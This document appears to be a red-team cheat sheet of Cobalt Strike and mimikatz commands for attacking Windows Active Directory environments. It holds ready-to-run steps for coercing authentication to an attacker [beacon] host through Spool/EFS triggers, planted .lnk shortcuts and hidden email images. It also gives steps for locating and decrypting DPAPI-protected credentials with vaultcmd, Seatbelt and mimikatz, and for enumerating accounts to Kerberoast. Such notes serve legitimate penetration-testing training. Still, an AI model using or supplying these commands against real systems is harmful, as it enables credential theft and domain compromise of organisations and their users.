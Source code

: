 Remote Authentication Triggers
`execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe [target] [beacon]`
`execute-assembly C:\Tools\SharpSystemTriggers\SharpEfsTrigger\bin\Release\SharpEfsTrigger.exe [target] [beacon]`

Windows Shortcut
`powerpick Find-DomainShare -CheckShareAccess`

`$wsh = new-object -ComObject wscript.shell`
`$shortcut = $wsh.CreateShortcut("[share]\test.lnk")`
`$shortcut.IconLocation = "\\[beacon]\test.ico"`
`$shortcut.Save()`

1x1 image in emails: `<img src="\\[beacon]\test.ico" height="1" width="1" />`
## DPAPI

Credentials Locations
- Windows Credentials: `C:\Users\[username]\AppData\Local\Microsoft\Credentials`
- Scheduled Task Credentials: `C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials`
- Master Keys: `C:\Users\[username]\AppData\Roaming\Microsoft\Protect`

`run vaultcmd /list`
`run vaultcmd /listcreds:"Windows Credentials" /all`
`run vaultcmd /listcreds:"Web Credentials" /all`

`execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe WindowsVault`
`execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe WindowsCredentialFiles`→ shows cred and master key files (skip to [[#Obtain Master Key]])
#### Determine Cred Files
User Credentials
`ls C:\Users\[user]\AppData\Local\Microsoft\Credentials`
Cred File: `C:\Users\[user]\AppData\Local\Microsoft\Credentials\[file]`
**Note:** You would have to check this for each user. Consider using Seatbelt instead (above).

Scheduled Task Credentials
`ls C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials`
Cred File: `C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\[file]`
#### Determine Master Key File
(user credentials only)
`mimikatz dpapi::cred /in:[credfile]`
Key File: `C:\Users\[user]\AppData\Roaming\Microsoft\Protect\[sid]\[MasterKey]`
#### Obtain Master Key
as system: `mimikatz !sekurlsa::dpapi`
as user: `mimikatz @dpapi::masterkey /in:[keyfile] /rpc`
#### Decrypt Credentials
`mimikatz dpapi::cred /in:[credfile] /masterkey:[key]`
## Kerberos
#### Service Tickets
| Technique | Service Tickets |
| ---- | ---- |
| psexec | host, cifs |
| winrm | host, http |
| dcsync | ldap |
use cifs to `ls`
#### Kerberoasting
`execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=user)(servicePrincipalName=*))" --attributes cn,servicePrincipalName,samAccountName`